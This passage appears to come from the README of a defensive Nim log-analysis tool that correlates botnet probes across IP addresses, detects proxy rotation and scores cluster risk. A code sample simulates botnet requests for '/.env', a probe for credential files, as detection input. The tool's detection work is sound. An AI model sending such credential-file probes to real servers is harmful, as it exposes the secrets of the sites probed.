- **Residential Proxy Rotation Detection**: Flags automated residential proxy networks when consecutive vulnerability probes targeting exploit paths arrive from distinct IPs within seconds (<= 10s threshold).
- **Dynamic Registry (`ActorClusterTable`)**: Fast in-memory lookup table dynamically indexing IP addresses, probe fingerprints, and sequence hashes to `ActorCluster` instances.
- **Cluster-Level Risk Metrics (`ClusterRiskMetrics`)**: Synthesizes request velocity, distinct IP fleet size, endpoint targeting breadth, attack duration, 404 ratio, and proxy rotation penalties into a composite severity score (`Critical`, `High`, `Medium`, `Low`).

```nim
import std/times
import http_logviewer/core/types
import http_logviewer/analyzer/[correlator, classifier]

let table = newActorClusterTable(windowSeconds = 1800, proxyRotationThresholdSec = 10)

# Simulate two nodes from a rotating botnet targeting the same endpoints
let entry1 = initHttpLogEntry(clientIp = "185.220.101.5", path = "/.env", timestamp = now().utc, userAgent = "Botnet/2.0")
let entry2 = initHttpLogEntry(clientIp = "45.154.255.12", path = "/.env", timestamp = now().utc, userAgent = "Botnet/2.0")

let cid1 = table.correlateRecord(entry1, evaluateThreat(entry1))
let cid2 = table.correlateRecord(entry2, evaluateThreat(entry2))

echo "Correlated under same cluster: ", cid1 == cid2
let cluster = table.getCluster(cid1.get()).get()
let metrics = calculateClusterMetrics(cluster)
echo "Unique IPs: ", metrics.uniqueIps, ", Severity: ", metrics.severity
```

The recording below demonstrates in-memory sliding time window tracking, dynamic `ActorClusterTable` registration, 5-node distributed botnet fleet correlation, residential proxy rotation detection, cluster risk metrics calculation, and automatic cluster pruning:



> *Source session recording:* [`docs/recordings/multi_ip_probe_correlation.cast`](docs/recordings/multi_ip_probe_correlation.cast) *(recorded with Asciinema, rendered via Agg with JetBrainsMono Nerd Font Mono)*.

Compile and run this example:
```bash
nim r --path:src examples/multi_ip_probe_correlation.nim
```

---

## Examples

The `examples/` folder provides executable demonstrations of each pipeline layer:

- [`examples/basic_usage.nim`](examples/basic_usage.nim): Baseline library imports and configuration sanity check.
- [`examples/log_entry_models.nim`](examples/log_entry_models.nim): Detailed usage of `HttpLogEntry`, `HttpMethod`, stringifiers, and JSON round-tripping.
- [`examples/threat_and_actor_models.nim`](examples/threat_and_actor_models.nim): Comprehensive threat scoring, geolocation enrichment, and multi-IP cluster correlation.
- [`examples/configuration_and_state_models.nim`](examples/configuration_and_state_models.nim): Runtime session configuration, granular traffic filter criteria, CLI argument parsing, and JSON configuration serialization.
- [`examples/format_detection_and_parsing.nim`](examples/format_detection_and_parsing.nim): High-performance log parsing across CLF, Combined, and JSON formats, format auto-detection, and HTTP status code token classification.
- [`examples/streaming_and_pipe_ingestion.nim`](examples/streaming_and_pipe_ingestion.nim): High-performance streaming ingestion, live file tailing (`-f/--follow`), transparent `.log.gz` archive reading, and $O(1)$ memory processor.
- [`examples/parsing_fault_tolerance.nim`](examples/parsing_fault_tolerance.nim): Robust parsing fault-tolerance, byte and quote sanitization, IPv4/IPv6 address normalization, multi-locale timestamps, and streaming diagnostics.
- [`examples/ip_to_country_lookup.nim`](examples/ip_to_country_lookup.nim): Comprehensive IP-to-Country geolocation, offline CIDR lookups, MaxMind MMDB parsing, LRU cache benchmarks, and bogon LAN detection.
- [`examples/flags_and_country_metadata.nim`](examples/flags_and_country_metadata.nim): Algorithmic ISO country flag emojis, 249 country name resolutions, security pseudo-codes, and terminal ASCII fallback.
- [`examples/bogon_and_private_ip.nim`](examples/bogon_and_private_ip.nim): Comprehensive RFC 1918, loopback, link-local, CGNAT, multicast, bogon reserved networks, and local traffic markers.
- [`examples/attack_signatures_and_payloads.nim`](examples/attack_signatures_and_payloads.nim): Hostile attack signatures, OWASP Top 10 vectors, sensitive file probes, CMS exploits, directory traversal, SQLi, RCE, and Log4j detection.
- [`examples/user_agent_taxonomy.nim`](examples/user_agent_taxonomy.nim): User-Agent taxonomy, verified search engines, commercial crawlers, offensive security scanners, generic HTTP libraries, and anomaly detection.
- [`examples/behavioral_heuristics.nim`](examples/behavioral_heuristics.nim): Behavioral heuristics, static asset ratios, 404 velocity, method anomaly scoring, and composite risk classification.
- [`examples/actor_fingerprint_synthesis.nim`](examples/actor_fingerprint_synthesis.nim): Actor fingerprint synthesis, User-Agent normalization, path sequence hashing, cache-buster stripping, Jaccard similarity, and multi-IP botnet correlation.
- [`examples/multi_ip_probe_correlation.nim`](examples/multi_ip_probe_correlation.nim): Multi-IP probe sequence correlation, sliding time window tracking, residential proxy rotation detection, dynamic `ActorClusterTable` linking, and cluster risk metrics.
- [`examples/pipeline_scaffolding.nim`](examples/pipeline_scaffolding.nim): Cross-module pipeline event envelope demonstration.

---

## Development and Documentation

Common developer workflows supported by Nimble:

```bash
# Run unit and integration test suite
nimble test

# Run CI sanity check script
nimble ci

# Generate HTML documentation into build/docs/
nimble docs

# Clean all build artifacts and nimcache
nimble clean
```

All build targets, intermediate C files, and generated HTML documentation reside strictly in the `build/` directory.

---

## Attribution and License

- Licensed under the [MIT License](LICENSE).
- Developed in Nim for maximum throughput, low memory footprint, and high-visibility terminal security auditing.
